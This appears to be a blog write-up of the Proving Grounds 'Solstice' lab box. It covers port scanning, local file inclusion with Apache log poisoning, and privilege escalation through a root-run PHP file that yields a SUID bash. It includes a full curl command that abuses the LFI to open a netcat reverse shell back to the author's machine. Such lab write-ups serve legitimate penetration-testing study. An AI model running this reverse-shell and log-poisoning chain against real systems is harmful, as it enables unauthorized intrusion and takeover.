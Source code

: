 ```yaml
---
layout: post
title: Proving Grounds - Solstice
---
```


### Summary

Solstice is a Linux box that is available on [Offensive Security's Proving Grounds](https://www.offensive-security.com/labs/individual/).  It's rated as an Easy box, and rightfully so.  There were a few rabbit holes, but if you considered all the variables before going down the rabbit hole, you would successfully avoid them.

*Initial foothold:* LFI

*Privilege Escalation:* File permissions

### Recon

I started off with a port scan.  I make use of [rustscan](https://github.com/RustScan/RustScan).

I have this alias set up in my .zshrc file:

```bash
portscan() {
        sudo rustscan -t 10000 -a $1 --ulimit 10000 -- -Pn -sC -sV -oA nmap/rustscan-$1
}
```

```
PORT      STATE SERVICE REASON         VERSION
21/tcp    open  ftp     syn-ack ttl 63 pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.143.72:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:a7:37:fd:55:6c:f8:ea:03:f5:10:bc:94:32:07:18 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDWAl1JMEsT6kbFmhkFFIZbd2aH3DuBpmLjo1MvWSSFsUlQ+rN9wQ8y469ng7vKZDx19ke+JZ9jUcuJAu4zQ6BHjHDcLTy44WJCESD4oACMCK6+tlMneuINf6KTMr3urfvkvlULi2ffNbMl6Ko9gS/Oqh8Cm9HyAXGTK5MVgmW39QFTXdn7ByQMnnXjKmJ+5nXbf9c9Al9JJCFQAe0irCq2w3ubylh83SwPWsunapn0pW8Czsm2nsFL6aRXCOoNeK7/GmcC8lqENMnUIVRauhpDR3radZ4Uv4ejzHL8H+IklpgVRqBiuzRiqHpGlotNYadcArbYZ4auDwibrtRwgTlD
|   256 ab:da:6a:6f:97:3f:b2:70:3e:6c:2b:4b:0c:b7:f6:4c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM9EuXzK3hXcn3ml6Kj69Bo1DACMk1AZWWm9wgPGIyPBQyQLXLazAtoqEP1phT1BNmtyAvScCwsydQwUsRH/3vA=
|   256 ae:29:d4:e3:46:a1:b1:52:27:83:8f:8f:b0:c4:36:d1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIATUyTSmh1Tep0cnIVXvQBD6IQTjI8TBEmQEba1Fzkv2
25/tcp    open  smtp    syn-ack ttl 63 Exim smtpd
| smtp-commands: solstice Hello nmap.scanme.org [192.168.49.143], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP, 
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP 
80/tcp    open  http    syn-ack ttl 63 Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
2121/tcp  open  ftp     syn-ack ttl 63 pyftpdlib 1.5.6
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drws------   2 www-data www-data     4096 Jun 18  2020 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.143.72:2121
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
8593/tcp  open  http    syn-ack ttl 63 PHP cli server 5.5 or later (PHP 7.3.14-1)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
54787/tcp open  http    syn-ack ttl 63 PHP cli server 5.5 or later (PHP 7.3.14-1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
62524/tcp open  ftp     syn-ack ttl 63 FreeFloat ftpd 1.00
Service Info: OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows
```

### HTTP - Port 8593

On the second HTTP port, 8593, I found a bit more to work with than with the service running on port 80.

![](/assets/2021-06-23-11-46-34.png)

I also discovered LFI injection possible on the `book` parameter.

![](/assets/2021-06-23-11-47-42.png)

I made sure I could access the Apache log file, to try log poisoning.

![](/assets/2021-06-23-11-48-35.png)

I made a request to inject some PHP code into the log file.

![](/assets/2021-06-23-11-49-07.png)

As I had been doing a lot of HTTP fuzzing, the access log was huge.  So I made a quick ping command to test that I actually have command execution.  There was a successful ping back.

![](/assets/2021-06-23-11-50-01.png)

![](/assets/2021-06-23-11-50-06.png)

### Initial foothold

From here it was easy to get a reverse shell.

```bash
curl "http://192.168.143.72:8593/index.php?book=../../../../var/log/apache2/access.log&cmd=nc%20192.168.49.143%204444%20-e%20/bin/bash"
```

![](/assets/2021-06-23-11-51-49.png)

### Privilege Escalation

Making use of [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh) I was able to see that there is a custom web application running on local port 57.

![](/assets/2021-06-23-11-53-32.png)

I also noticed that the service running on this port was starting up from the /var/tmp/sv directory.

![](/assets/2021-06-23-12-01-14.png)

As the service was being run as `root`, and I had write access to the `index.php` file, I decided to add in code that should run as root.

![](/assets/2021-06-23-12-02-19.png)

I used curl to access this service, to trigger the code in `index.php`.

![](/assets/2021-06-23-12-02-49.png)

The `bash` file was successfully copied and made SUID.

![](/assets/2021-06-23-12-03-08.png)